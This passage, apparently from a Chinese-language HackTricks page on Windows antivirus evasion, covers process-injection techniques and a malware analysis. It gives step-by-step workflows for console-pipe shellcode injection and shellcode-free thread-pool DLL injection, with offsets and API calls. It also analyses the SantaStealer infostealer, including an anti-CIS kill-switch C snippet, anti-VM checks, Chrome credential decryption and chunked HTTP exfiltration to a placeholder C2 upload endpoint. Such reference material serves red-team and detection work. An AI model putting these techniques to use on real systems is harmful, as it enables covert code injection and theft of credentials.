- 远程读取 `PEB`，随后读取 `RTL_USER_PROCESS_PARAMETERS`
- 创建进程时，`lpCommandLine`、`lpEnvironment` 或 `STARTUPINFO.lpReserved` 的值异常长或熵值很高

### 注意事项

- P3 是一种**跨进程传输技巧**，本身并不是完整的执行原语：复制的参数仍需更改为可执行权限，并通过某种执行重定向方法运行。
- 作者曾考虑 `RtlCreateProcessReflection` / Dirty Vanity，但最终放弃，因为它在内部会调用 `NtWriteVirtualMemory` 和 `NtCreateThreadEx` 等可疑原语。

若要通过线程描述将 payload 传入**现有** Windows 进程，然后劫持等待线程的返回地址，请参阅 [Thread Name-Calling and Waiting Thread Hijacking](windows-process-injection-thread-name-calling-waiting-thread-hijacking.md)。

## Console STDIN pipe injection

交互式控制台子进程也可用作 **payload-transfer primitive**。注入器将子进程的标准输入重定向到管道，并发送一个标记，后跟 shellcode。控制台程序将数据读入自身的私有内存后，注入器会找到该缓冲区，将其设为可执行，并将子线程重定向到该缓冲区。这避免了使用 `VirtualAllocEx` 和 `WriteProcessMemory`，但它仍然属于 process injection，而不是通用的 EDR 绕过方法。<sup>[[41]](#references)</sup>

尽管文中称其为“named pipe”，参考实现调用的是 `CreatePipe`，它创建的是**匿名管道**。Windows 在内部使用唯一命名的管道对象实现匿名管道，但该 PoC 既不选择 `\\.\pipe\<name>` 路径，也不调用 `CreateNamedPipe`。它使用默认安全描述符创建可继承句柄，将读句柄放入 `STARTUPINFO.hStdInput`，设置 `STARTF_USESTDHANDLES`，并在启用句柄继承的情况下启动新的子进程。因此，该 PoC 会启动提供的控制台可执行文件；它不会将管道连接到现有进程。<sup>[[41]](#references)[[42]](#references)[[43]](#references)</sup>

### 参考工作流程

该实现使用以下链路：<sup>[[41]](#references)</sup>

1. 为子进程的 `STDIN` 和 `STDOUT` 创建匿名管道对。清除两个父进程端句柄的继承标志，并在进程创建后关闭父进程中的子进程端副本。
2. 使用 `CREATE_NEW_CONSOLE` 启动 `netsh.exe` 或 `nslookup.exe` 等交互式可执行文件。子进程会继承重定向后的标准句柄。
3. 通过父进程端的 `STDIN` 句柄调用 `WriteFile`，发送完整的二进制 `rawData` 数组。控制台程序会读取这些字节，并在其某个私有已提交内存区域中留下一份副本。
4. 使用 `VirtualQueryEx` 遍历子进程的地址空间，通过 `ReadProcessMemory` 读取候选 `MEM_PRIVATE` 区域，并搜索 `rawData` 开头的标记。
5. 使用 `VirtualProtectEx` 将找到的缓冲区改为 `PAGE_EXECUTE_READWRITE`。
6. 找到主线程，将其挂起，通过 `NtSetContextThread` 将 `RIP` 设置为 `found_address + 0x19`，然后恢复该线程。

```powershell
InjectSetConsole.exe C:\Windows\System32\netsh.exe
```

所提供的实现专用于 x64：它会修改 `CONTEXT.Rip`，内嵌的 payload 也是 x64 shellcode。`rawData` 以一个 25 字节的标记开头，因此可执行字节从十六进制偏移 `0x19` 开始。替换 payload 时，请保留此布局，或同时更新标记、搜索向量、数组大小和执行偏移。源代码注释还将 `0x0A`、`0x0D` 和 `0x1A` 列为坏字符。此工作流不会更改子进程的 token 或权限。<sup>[[41]](#references)</sup>

有关小型原生辅助程序和 payload 编译模式，请参阅 [Windows C Payloads](windows-local-privilege-escalation/windows-c-payloads.md)。

## 无 shellcode 的线程池回调 DLL 注入（DLLParty）

DLLParty 改造了 PoolParty 风格的线程池注入方式，使现有目标 worker 调用 `LoadLibraryA`，而不是执行注入的回调 stub。其分发原语是一个排入目标池 I/O 完成端口的 `TP_DIRECT` 完成项。这并不能绕过进程权限：PoC 调用 `OpenProcess(PROCESS_ALL_ACCESS)`，需要能够读写目标内存，并且需要可复制的 worker-factory 和完成端口句柄。<sup>[[46]](#references)[[47]](#references)</sup>

在 Windows x64 上，worker 会将指向其栈上 `TP_CALLBACK_INSTANCE` 的指针放入 `RCX`，即第一个回调参数。`LoadLibraryA` 会将同一指针解释为 `LPCSTR`。在经过测试的执行路径中，`TppWorkerThread` 在 `RSP+0x178` 处构造该指针，而对该对象的首次常规写入发生在 `RSP+0x1d0`。因此，长度适合这个 0x58 字节前缀的 null 结尾 DLL 路径可以放在实例开头，在分发前不会被覆盖。这是特定构建版本上的观察结果，并非 Windows ABI 的文档保证。<sup>[[46]](#references)[[47]](#references)</sup>

参考工作流如下：<sup>[[46]](#references)[[47]](#references)</sup>

1. 使用 `NtQuerySystemInformation(SystemHandleInformation)` 枚举目标句柄，并通过查询对象类型识别 `TpWorkerFactory`。复制一个 worker-factory 句柄并查询 `WorkerFactoryBasicInformation`；`StartParameter` 给出远程 `TP_POOL`。跳过 `TotalWorkerCount == 0` 的 factory。
2. 读取 `TP_POOL.CompletionPort`，并遍历该池的私有 worker 链表。在经过测试的 Windows 10 19045 x64 构建版本（`ntdll.dll 10.0.19041.4842`）中，链表头位于 `pool+0x60`；每个链接位于 `worker+0x10`，因此 `worker+0x38` 处的回调实例槽等于 `link+0x28`。PoC 会检查指针对齐、链接互反性、池所有权、非零线程 ID、重复节点以及稳定的链表头。
3. 将 DLL 路径写入**每个**找到的 worker 槽，因为排入队列的完成项可能由任意 worker 处理。在可写的目标内存中放置一个 `TP_DIRECT`，并设置 `Callback = LoadLibraryA`。PoC 使用 worker 栈上的 `last_slot-0x500`，而不是 `VirtualAllocEx`；此偏移未经充分验证，且不得与活动栈数据冲突。
4. 复制目标完成端口句柄，并调用 `ZwSetIoCompletion(port, remote_direct, 0, 0, 0)`。远程 `TP_DIRECT` 地址就是完成键。随后，现有 worker 会使用被覆盖的回调实例指针调用 `LoadLibraryA`，从而加载目标进程已能访问的 DLL。

PoC 接受目标 PID（`DLLParty.exe <target_pid>`），并在 `DLLParty.cpp` 中使用硬编码 DLL 路径；构建 x64 可执行文件前，请设置一个目标进程可访问的路径。它还会将自身进程中的 `LoadLibraryA` 地址用作远程回调，因此假定该地址在目标进程中有效。代码不会检查路径长度是否超出 0x58 字节前缀，也不会在索引最后一个元素前确认 worker 遍历是否找到了槽。请针对目标构建版本重新验证私有偏移、栈布局和可写空间。省略 `CreateRemoteThreadEx`、shellcode 和 `VirtualAllocEx`，并不意味着消除了跨进程写入或 DLL 加载遥测。<sup>[[46]](#references)[[47]](#references)</sup>

## SantaStealer 的无文件规避与凭据窃取手法

SantaStealer（又称 BluelineStealer）展示了现代信息窃取程序如何在单一工作流中融合 AV bypass、反分析和凭据访问。<sup>[[24]](#references)</sup>

### 键盘布局筛选与沙箱延迟

- 一个配置标志（`anti_cis`）会通过 `GetKeyboardLayoutList` 枚举已安装的键盘布局。如果发现西里尔字母布局，样本会创建一个空的 `CIS` 标记并终止，避免在排除的地区运行窃取程序，同时留下可供威胁搜寻的痕迹。

```c
HKL layouts[64];
int count = GetKeyboardLayoutList(64, layouts);
for (int i = 0; i < count; i++) {
    LANGID lang = PRIMARYLANGID(HIWORD((ULONG_PTR)layouts[i]));
    if (lang == LANG_RUSSIAN) {
        CreateFileA("CIS", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
        ExitProcess(0);
    }
}
Sleep(exec_delay_seconds * 1000); // config-controlled delay to outlive sandboxes
```

### 分层的 `check_antivm` 逻辑

- Variant A 遍历进程列表，使用自定义滚动校验和对每个名称进行哈希处理，并与内嵌的调试器/沙箱黑名单进行比较；它还会对计算机名称重复执行校验和，并检查 `C:\analysis` 等工作目录。
- Variant B 检查系统属性（进程数量下限、近期运行时间），调用 `OpenServiceA("VBoxGuest")` 检测 VirtualBox additions，并在休眠前后执行计时检查，以发现单步执行。任何一项检测命中，都会在模块启动前中止。

### 无文件 helper + 双重 ChaCha20 反射式加载

- 主 DLL/EXE 内嵌了一个 Chromium 凭据 helper，该 helper 会被释放到磁盘，或手动映射到内存中；无文件模式会自行解析导入项/重定位，因此不会写入任何 helper 文件。
- 该 helper 使用 ChaCha20 对第二阶段 DLL 加密两次（两个 32 字节密钥 + 12 字节 nonce）。完成两轮解密后，它会反射式加载该 blob（不使用 `LoadLibrary`），并调用源自 [ChromElevator](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption) 的导出函数 `ChromeElevator_Initialize/ProcessAllBrowsers/Cleanup`。<sup>[[25]](#references)</sup>
- ChromElevator 例程使用直接系统调用的反射式进程空洞化技术，将代码注入正在运行的 Chromium 浏览器，继承 AppBound Encryption 密钥，并直接从 SQLite 数据库中解密密码/cookie/信用卡数据，绕过 ABE 加固。


### 模块化内存收集与分块 HTTP 外传

- `create_memory_based_log` 遍历全局 `memory_generators` 函数指针表，并为每个已启用模块（Telegram、Discord、Steam、屏幕截图、文档、浏览器扩展等）启动一个线程。每个线程将结果写入共享缓冲区，并在约 45 秒的 join 等待窗口后报告其文件数量。
- 完成后，所有内容都会使用静态链接的 `miniz` 库压缩为 `%TEMP%\\Log.zip`。随后 `ThreadPayload1` 休眠 15 秒，再通过 HTTP POST 将压缩包按 10 MB 分块流式发送至 `http://<C2>:6767/upload`，并伪造浏览器的 `multipart/form-data` boundary（`----WebKitFormBoundary***`）。每个分块都会附带 `User-Agent: upload`、`auth: <build_id>`，以及可选的 `w: <campaign_tag>`；最后一个分块还会附加 `complete: true`，以便 C2 知道重组已完成。

## References

- [1] [高级规避技艺：精准模块踩踏](https://medium.com/@toneillcodes/advanced-evasion-tradecraft-precision-module-stomping-b51feb0978fe)
- [2] [toneillcodes/windows-process-injection](https://github.com/toneillcodes/windows-process-injection)
- [3] [Crystal Kit – 博客](https://rastamouse.me/crystal-kit/)
- [4] [Crystal-Kit – GitHub](https://github.com/rasta-mouse/Crystal-Kit)
- [5] [Elastic – 调用栈：恶意软件不再能轻松过关](https://www.elastic.co/security-labs/call-stacks-no-more-free-passes-for-malware)
- [6] [Crystal Palace – 文档](https://tradecraftgarden.org/docs.html)
- [7] [simplehook – 示例](https://tradecraftgarden.org/simplehook.html)
- [8] [stackcutting – 示例](https://tradecraftgarden.org/stackcutting.html)
- [9] [Draugr – 调用栈欺骗 PIC](https://github.com/NtDallas/Draugr)
- [10] [Unit42 – DarkCloud Stealer 的新感染链与基于 ConfuserEx 的混淆](https://unit42.paloaltonetworks.com/new-darkcloud-stealer-infection-chain/)
- [11] [Synacktiv – 你应该相信自己的零信任吗？绕过 Zscaler 姿态检查](https://www.synacktiv.com/en/publications/should-you-trust-your-zero-trust-bypassing-zscaler-posture-checks.html)
- [12] [Check Point Research – ToolShell 之前：探究 Storm-2603 以往的勒索软件行动](https://research.checkpoint.com/2025/before-toolshell-exploring-storm-2603s-previous-ransomware-operations/)
- [13] [Hexacorn – DLL ForwardSideLoading：滥用转发的导出函数](https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/)
- [14] [Windows 11 转发导出清单 (apis_fwd.txt)](https://hexacorn.com/d/apis_fwd.txt)
- [15] [Microsoft Learn – 动态链接库搜索顺序](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [16] [Microsoft Learn – 进程安全性和访问权限](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)
- [17] [Microsoft – EKU 参考 (MS-PPSEC)](https://learn.microsoft.com/openspecs/windows_protocols/ms-ppsec/651a90f3-e1f5-4087-8503-40d804429a88)
- [18] [Sysinternals – Process Monitor](https://learn.microsoft.com/sysinternals/downloads/procmon)
- [19] [CreateProcessAsPPL 启动器](https://github.com/2x7EQ13/CreateProcessAsPPL)
- [20] [Zero Salarium – 借助受保护进程轻型 (PPL) 防护来应对 EDR](https://www.zerosalarium.com/2025/08/countering-edrs-with-backing-of-ppl-protection.html)
- [21] [Zero Salarium – 使用文件夹重定向技术打破 Windows Defender 的防护壳](https://www.zerosalarium.com/2025/09/Break-Protective-Shell-Windows-Defender-Folder-Redirect-Technique-Symlink.html)
- [22] [Microsoft – mklink 命令参考](https://learn.microsoft.com/windows-server/administration/windows-commands/mklink)
- [23] [Check Point Research – 纯粹表象之下：从 RAT 到构建器再到编写者](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)
- [24] [Rapid7 – SantaStealer 即将到来：一款雄心勃勃的新型信息窃取程序](https://www.rapid7.com/blog/post/tr-santastealer-is-coming-to-town-a-new-ambitious-infostealer-advertised-on-underground-forums)
- [25] [ChromElevator – Chrome App Bound Encryption 解密](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [26] [Check Point Research – GachiLoader：通过 API 跟踪击败 Node.js 恶意软件](https://research.checkpoint.com/2025/gachiloader-node-js-malware-with-api-tracing/)
- [27] [睡美人：使用 Crystal Palace 让 Adaptix 安然入睡](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty/)
- [28] [SensePost – 进程参数投毒](https://sensepost.com/blog/2026/process-parameter-poisoning/)
- [29] [Orange Cyberdefense – p3-loader](https://github.com/Orange-Cyberdefense/p3-loader)
- [30] [睡美人 II：CFG、CET 与栈欺骗](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty-ii)
- [31] [Ekko 休眠混淆](https://github.com/Cracked5pider/Ekko)
- [32] [SysWhispers4 – GitHub](https://github.com/JoasASantos/SysWhispers4)
- [33] [blog.xpnsec.com - 隐藏你的 Dotnet Etw](https://blog.xpnsec.com/hiding-your-dotnet-etw)
- [34] [repnz/etw-providers-docs](https://github.com/repnz/etw-providers-docs)
- [35] [trustedsec.com - 在红队行动中滥用 Chrome Remote Desktop：实用指南](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)
- [36] [Check Point Research - BTR Reforged：将 Defender 的修复驱动程序武器化，作为内核操作原语](https://research.checkpoint.com/2026/btr-reforged-weaponizing-defenders-remediation-driver-as-a-kernel-operation-primitive/)
- [37] [Dump-GUY - BTR_CLI](https://github.com/Dump-GUY/BTR_CLI)
- [38] [MDSec Function Peekaboo 配套代码](https://github.com/mdsecactivebreach/functionpeekaboo)
- [39] [MDSec - Function Peekaboo：使用 LLVM 构造自我屏蔽函数](https://mdsec.co.uk/2025/10/function-peekaboo-crafting-self-masking-functions-using-llvm/)
- [40] [Microsoft Learn - VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)
- [41] [TwoSevenOneT - InjectSetConsole 源码](https://github.com/TwoSevenOneT/InjectSetConsole)
- [42] [Microsoft Learn - CreatePipe 函数](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-createpipe)
- [43] [Microsoft Learn - 创建输入和输出重定向的子进程](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
- [44] [Praetorian - GhostPack Necromancy：使用 WasmForge 重铸 C# 工具](https://praetorian.com/blog/wasmforge-csharp-ghostpack-edr-evasion)
- [45] [WasmForge - 编译 C# / .NET 项目](https://github.com/praetorian-inc/wasmforge/blob/main/docs/CSHARP.md)
- [46] [DLLParty 概念验证与源码](https://github.com/epersic/DLLParty)
- [47] [DLLParty — 滥用线程池内部机制实现无 shellcode 的 DLL 注入](https://medium.com/@persic.eno/dllparty-abusing-thread-pool-internals-for-shellcodeless-dll-injection-7c84106f7745)
- [48] [EMBER2024 基准数据集与 thrember 工具](https://github.com/FutureComputing4AI/EMBER2024)
- [49] [使用 EMBER2024 评估红队植入程序](https://mez0.cc/posts/evaluating-implants-with-ember/)
- [50] [MSec Operations – 规避基于机器学习的检测](https://msecops.de/blog/posts/ml-evasion/)
- [51] [Kaspersky Securelist – 基于 XAML 的 .NET 加载框架 NetamLoader](https://securelist.com/netamloader/121676)
- [52] [Microsoft Learn – AMSI_RESULT 枚举](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)
- [53] [Microsoft Learn – IAntimalware::Scan 方法](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-iantimalware-scan)
- [54] [Zscaler ThreatLabz - 2CLoader 技术分析](https://zscaler.com/blogs/security-research/2cloader-new-malware-loader-delivering-vidar-and-remus)
- [55] [tprtdll-Injection 概述与导出清单](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/README.md)
- [56] [Trusted-twin 自注入 PoC](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/trustedtwin_self.cpp)
- [57] [Trusted-twin 跨进程注入 PoC](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/trustedtwin_cross.cpp)
{{#include ../banners/hacktricks-training.md}}
